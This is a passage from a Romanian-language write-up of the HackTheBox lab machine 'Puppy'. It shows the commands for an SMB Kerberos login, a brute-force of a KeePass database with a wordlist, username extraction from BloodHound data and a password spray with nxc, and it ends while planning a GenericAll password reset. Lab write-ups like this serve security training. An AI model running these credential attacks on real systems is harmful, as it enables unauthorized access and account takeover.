 *impacket-smbclient -k -no-pass 'PUPPY.HTB/levi.james@dc.puppy.htb' -dc-ip 10.10.11.70*

![Fig. 13](/writeups/puppy/image%2012.png)

Fig. 13

6. Pentru a putea cracka baza de date in format KeePass va trebui sa facem bruteforce. keepass2john nu a functionat 

![Fig. 14](/writeups/puppy/image%2013.png)

Fig. 14

Vom incerca sa o spargem cu acest tool. 

[https://github.com/r3nt0n/keepass4brute](https://github.com/r3nt0n/keepass4brute)

*~/Desktop/Tools/keepass4brute.sh recovery.kdbx /usr/share/wordlists/rockyou.txt*

Dupa utilizarea toolului, ni s-a afisat parola. 

![Fig. 15](/writeups/puppy/image%2014.png)

Fig. 15

1. Pentru a putea gasi userul care are una dintre parolele din baza de date, va trebui sa facem un spray attack. O sa colectam toate parolele din baza de date KeePassXC

![Fig. 16](/writeups/puppy/image%2015.png)

Fig. 16

Si acum vom colecta toti userii din datele de pe bloodhound. 

*jq -r '.data[] | .Properties.samaccountname // empty' 20251005041029_users.json \
| tr '[:upper:]' '[:lower:]' | sort -u > users_all.txt*

![Fig. 17](/writeups/puppy/image%2016.png)

Fig. 17

Pentru a face spray attack, o sa utilizam nxc cu aceasta lista de uesri si lista de parole facuta. 

*nxc smb 10.10.11.70 -d PUPPY.HTB -u users_all.txt -p pass.txt --continue-on-success -t 1000*

![Fig, 18](/writeups/puppy/image%2017.png)

Fig, 18

8. In Bloodhound, contul ant.edwards esste peste adam.silver.

![Fig. 19 ](/writeups/puppy/image%2018.png)

Fig. 19 

9.  Pentru a ne creea acces la adam.silver o sa trebuiasca sa ii punem o parola pe care o cunoastem. Avand in vedere ca ant.edward are genericall peste adam.silver, o sa ii putem sa ii schimbam parola. 
